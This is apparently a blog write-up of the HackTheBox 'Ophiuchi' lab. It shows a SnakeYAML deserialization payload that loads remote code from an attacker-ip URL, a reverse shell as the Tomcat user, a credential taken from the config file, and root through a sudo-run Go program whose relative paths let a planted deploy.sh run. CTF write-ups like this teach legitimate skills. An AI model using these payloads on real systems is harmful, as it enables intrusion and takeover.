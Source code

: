 ```yaml
---
layout: post
current: post
navigation: True
title: Ophiuchi Writeup
date: 2021-07-01 20:00:00
cover: assets/images/ophiuchi.png
class: post-template
subclass: 'post'
author: r3Z3l
---
```


Easy Linux box from HackTheBox.

On rustscan:
- port 22
- port 8080
are open.

checking port 8080 which hosting webpage allow yaml parsing.

I found article related to yaml parsing.
[https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)


<pre><code>
!!javax.script.ScriptEngineManager [
		!!java.net.URLClassLoader [[
			!!java.net.URL ["http://attacker-ip/"]
		]]
]
</code></pre>

It request our python server for some files.
we used this exploit to send reverse shell.
[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)
using this we get shell of tomcat.

It's running on tomcat so let's find it configuration.
reading tomcat config file we get credentials
``admin:whythereisalimit``

After doing ssh we are now admin user.
we get #user-txt 

after checking sudo -l.<br>
we find that we can run sudo with index.go without password.<br>
if we check file index.go we see that path is not properly specified completely for main.wasm and deploy.sh.
![Pasted image 20210609202714.png](assets/images/Pasted image 20210609202714.png)


Let's create main.wasm which returns 1 as a value of info function
using [https://mbebenita.github.io/WasmExplorer/](https://mbebenita.github.io/WasmExplorer/)
![Pasted image 20210609202957.png](assets/images/Pasted image 20210609202957.png)

In deploy.sh let's put a reverse shell.
We got a reverse shell as a root user
we got #root-txt 